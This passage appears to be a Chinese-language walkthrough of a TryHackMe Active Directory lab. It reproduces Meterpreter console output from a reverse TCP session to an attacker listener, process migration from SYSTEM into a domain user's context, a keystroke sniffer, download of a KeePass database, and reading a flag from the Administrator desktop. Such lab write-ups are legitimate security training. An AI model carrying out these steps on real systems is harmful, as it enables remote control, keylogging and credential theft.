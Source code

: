 [*] Using configured payload generic/shell_reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
LHOST => 10.50.57.67
LPORT => 4444
[*] Started reverse TCP handler on 10.50.57.67:4444 
[*] Sending stage (200774 bytes) to 10.200.60.201
[*] Meterpreter session 1 opened (10.50.57.67:4444 -> 10.200.60.201:54456) at 2022-08-12 05:09:55 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```



ps查看用户t1_trevor.jones的进程

```
meterpreter > ps 

Process List
============

 PID   PPID  Name             Arch  Session  User                Path
 ---   ----  ----             ----  -------  ----                ----
 3412  688   wsmprovhost.exe  x64   0        ZA\t1_trevor.jones  C:\Windows\System32\wsmprovhost.exe

```

迁移进程，以的身份执行下面的操作
```
meterpreter > migrate 3412
[*] Migrating from 3932 to 3412...
[*] Migration completed successfully.
meterpreter > getuid
Server username: ZA\t1_trevor.jones
```

开启键盘监听
```
meterpreter > keyscan_start
Starting the keystroke sniffer ...
```


下载keepass文件
```
meterpreter > download PasswordDatabase.kdbx
[*] Downloading: PasswordDatabase.kdbx -> /root/tryhackme/ExploitingActiveDirectory/PasswordDatabase.kdbx
[*] Downloaded 1.84 KiB of 1.84 KiB (100.0%): PasswordDatabase.kdbx -> /root/tryhackme/ExploitingActiveDirectory/PasswordDatabase.kdbx
[*] download   : PasswordDatabase.kdbx -> /root/tryhackme/ExploitingActiveDirectory/PasswordDatabase.kdbx
```


这里我同时监听了trevor.local和t1_trevor.jones的键盘记录，等了很久也没有收集到密码，感觉lab有问题。。。


> What application is used to open the kdbx credential database?

> keepass

> What meterpreter command do we use to move from SYSTEM to user context?

> migrate
```

[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> cd c:/users/administrator/desktop
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> ls
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> type flag2.txt
